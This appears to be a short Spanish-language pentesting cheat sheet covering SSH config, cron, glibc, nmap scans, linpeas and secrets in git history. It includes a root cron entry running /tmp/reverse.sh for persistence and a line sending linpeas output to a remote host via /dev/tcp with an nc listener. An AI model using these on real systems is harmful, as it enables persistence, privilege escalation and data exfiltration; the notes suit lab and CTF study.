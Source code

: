 Para checar la configuracion del ssh el archivo esta en la siguiente ruta

```
cat /etc/ssh/sshd_config
```

## CronJob

Para hacer que jale un cron ponlo en la carpeta /etc/cron.d

```
* * * * * root sh /tmp/reverse.sh
```

## GLIBC

Para verificar que version de glibc tiene el sistema que estas trabajando y en el caso de tener que compilar un programa es util

```
ldd --version
```

## Nmap

Para tirarle categorias de scripts para probar vulnerabilidades

```
nmap --script "vuln and safe" -p443 10.10.10.17.1 -oN Scan
```

Escanear solo un rango de puertos.

```
nmap -p 1-10000 $target
```

## Linpeas

Usa esto en caso de que no sepas como escalar privilegios.

```
#Target
./linpeas.sh > out.txt

cat out.txt > /dev/tcp/IP/port

#Kali

nc -lvpn port > out.txt
```

## Github

Puede ser que se guarden claves en los diferentes commits que se hacen en un proyecto de git.
